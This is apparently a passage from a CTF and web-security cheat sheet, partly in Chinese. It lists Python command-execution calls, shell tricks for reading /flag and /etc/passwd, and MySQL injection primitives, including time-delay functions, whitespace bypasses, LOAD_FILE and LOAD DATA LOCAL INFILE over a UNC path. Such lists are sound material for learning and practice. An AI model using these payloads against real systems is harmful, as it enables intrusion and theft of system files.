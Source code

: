## Python Command Executing
- `os.system("ls")`
- `os.popen("ls").read()`
- `os.execl("/bin/ls","")`
- `os.execlp("ls","")`
- `os.execv("/bin/ls",[''])`
- `os.execvp("/bin/ls",[""])`
- `subprocess.call("ls")`
    - `subprocess.call("ls|cat",shell=False)` => Fail
    - `subprocess.call("ls|cat",shell=True)` => Correct
- `eval("__import__('os').system('ls')")`
- `exec("__import__('os').system('ls')")`
- `commands.getoutput('ls')`

## Read File

- diff /etc/passwd /flag
- paste /flag
- bzmore /flag
- bzless /flag
- static-sh /flag
- ...

# SQL Injection


## MySQL

- 子字串：
    - `substr("abc",1,1) => 'a'`
    - `mid("abc", 1, 1)  => 'a'`
- Ascii function
    - `ascii('A') => 65 `
- Char function
    - `char(65) => 'a'`
- Concatenation
    - `CONCAT('a', 'b') => 'ab'`
        - 如果任何一欄為 NULL，則返回 NULL
    - `CONCAT_WS(分隔符, 字串1, 字串2...)`
        - `CONCAT_WS('@', 'gg', 'inin')` => `gg@inin`
- Cast function
    - `CAST('125e342.83' AS signed) => 125`
    - `CONVERT('23',SIGNED) => 23`
- Delay function
    - `sleep(5)`
    - `BENCHMARK(count, expr)`
- 空白字元
    - `09 0A 0B 0C 0D A0 20`
- File-read function
    - `LOAD_FILE('/etc/passwd')`
    - `LOAD DATA INFILE`
        - Client 讀 Server 文件
        - 一樣受 `secure_file_priv`, `FILE` privilege 限制 (ref: [link](https://dev.mysql.com/doc/refman/8.0/en/load-data.html))
    - `LOAD DATA LOCAL INFILE`
        - Server 讀 Client 文件
        - `LOAD DATA LOCAL INFILE '/etc/hosts' INTO TABLE test FIELDS TERMINATED BY "\n";`
        - 不需要 `FILE` privilege，且任意目錄檔案皆可讀 (只要 Client 有權限即可)
        - support UNC Path
            - `LOAD DATA LOCAL INFILE '\\\\172.16.136.153\\test' into table mysql.test FIELDS TERMINATED BY "\n";`